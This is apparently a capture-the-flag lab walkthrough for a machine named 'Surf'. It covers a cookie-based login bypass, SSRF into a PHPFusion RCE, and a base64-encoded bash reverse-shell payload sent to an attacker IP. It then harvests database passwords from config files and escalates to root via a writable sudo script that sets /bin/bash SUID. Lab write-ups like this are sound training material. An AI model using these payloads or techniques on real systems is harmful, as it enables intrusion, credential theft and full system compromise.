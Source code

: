 # Surf

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.171   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 16:06 +08
Nmap scan report for 192.168.175.171
Host is up (0.17s latency).
Not shown: 41614 filtered tcp ports (no-response), 23919 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Surfing Blog --> Login Bypass

Port 80 took so long to load I didn't bother with it. Instead, I started with a `gobuster` scan:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.175.171 -t 100    
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.175.171
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/01 16:19:50 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.175.171/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.175.171/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.175.171/js/]
/administration       (Status: 301) [Size: 327] [--> http://192.168.175.171/administration/]
```

There's an administration directory present, and when viewed it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

I tried default and weak credentials, but they don't work. When the traffic is viewed in Burp, we can see that there are some tokens being passed around:

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

The `auth_status` cookie is just a `base64` encoded string of `{'success':'false'}`. Afterwards, the `auth_status` cookie is appended to every subsequent login attempt. We can easily replace this with `true` and be granted access to the admin dashboard:

<figure><img src="../../../.gitbook/assets/image (25) (9).png" alt=""><figcaption></figcaption></figure>

### SSRF --> RCE

Within the website, there isn't much functionality, but there is a 'Check Server Status' function:

<figure><img src="../../../.gitbook/assets/image (15) (8).png" alt=""><figcaption></figcaption></figure>

Here's the HTTP request sent:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=nvesm039uh8qqsd19aqv25jhg3
Upgrade-Insecure-Requests: 1



url=http%3A%2F%2F127.0.0.1%3A8080
```

This looks vulnerable to a SSRF, and we can confirm it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (12) (13).png" alt=""><figcaption></figcaption></figure>

Also, it tells us that the backend server is running PHPFusion. There are a few exploits available for PHPFusion:

```
$ searchsploit phpfusion    
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting        | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                  | php/webapps/49911.py
----------------------------------------------------------- ---------------------------------
```

We can download and view the RCE exploit to find that the exploit is triggered by sending a request to `/infusions/downloads/downloads.php?cat_id=${system(ls)}`.&#x20;

Using the exploit, we can create a payload generator as such:

```python
import base64
PAYLOAD = "bash -c  'bash  -i >& /dev/tcp/192.168.45.164/443 0>&1'  " # !!spaces are important in order to avoid ==!!
REQUEST_PAYLOAD = "/infusions/downloads/downloads.php?cat_id=$\{{system(base64_decode({})).exit\}}"

PAYLOAD_B64 = base64.b64encode(PAYLOAD.encode('ascii')).decode("ascii")
print(REQUEST_PAYLOAD.format(PAYLOAD_B64))
```

This would print `base64` encoded payload, which we can submit like so:

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.175.171
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: http://192.168.175.171
Connection: close
Referer: http://192.168.175.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=rnaerbm2cbt3193qgev658ap3k
Upgrade-Insecure-Requests: 1



url=http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(YmFzaCAtYyAgJ2Jhc2ggIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTY0LzQ0MyAwPiYxJyAg)).exit\}
```

Then we can get a reverse shell and grab the user flag:

<figure><img src="../../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### James Creds

As usual, we should be looking at credential files within the website. There are some in the `/var/www/html/config.php` file:

```php
<?php
// database settings
$db_host = 'localhost';
$db_port = '3306';
$db_user = 'phpfusion';
$db_pass = 'phpfusion';
$db_name = 'phpfusion';
$db_prefix = 'fusionc6Jb6_';
$db_driver = 'pdo';
define("DB_PREFIX", "fusionc6Jb6_");
define("COOKIE_PREFIX", "fusion33hvd_");
define("SECRET_KEY", "2RH443cPDc588jUkNtQ29fjHwJIS89Ez");
define("SECRET_KEY_SALT", "F6UU9T38pjH48myWA3HqkkN431l26GkI");
```

There are other files in the `/var/www` file present as well:

```
www-data@Surf:/var/www$ ls   
html  server
```

We can find credentials inside the `server` file for the user `james`.&#x20;

```php
www-data@Surf:/var/www/server/administration/config$ cat config.php 
<?php

//Note: This file should be included first in every php page.
error_reporting(E_ALL);
ini_set('display_errors', 'On');
define('BASE_PATH', dirname(dirname(__FILE__)));
define('APP_FOLDER', 'simpleadmin');
define('CURRENT_PAGE', basename($_SERVER['REQUEST_URI']));

require_once BASE_PATH . '/lib/MysqliDb/MysqliDb.php';
require_once BASE_PATH . '/helpers/helpers.php';

/*
|--------------------------------------------------------------------------
| DATABASE CONFIGURATION
|--------------------------------------------------------------------------
 */

define('DB_HOST', "localhost");
define('DB_USER', "core");
define('DB_PASSWORD', "FlyToTheMoon213!");
define('DB_NAME', "corephpadmin");

/**
 * Get instance of DB object
 */
function getDbInstance() {
        return new MysqliDb(DB_HOST, DB_USER, DB_PASSWORD, DB_NAME);
}
```

We can then `su` to `james`:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password for `james`, we can check our `sudo` privileges:

```
james@Surf:/home$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
```

This file is owned by `www-data` and we can write to it:

```
james@Surf:/home$ ls -la /var/backups/database-backup.php
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
```

The exploit would be to write a small snippet making `/bin/bash` an SUID binary and then executing it as `james`.&#x20;

We can use `vi` to edit the file to include `system("chmod u+s /bin/bash");`, and then use `:wq!` to force the save. Afterwards, when we can run the file using `sudo` as `james`:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Then we can easily become the `root` user:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>
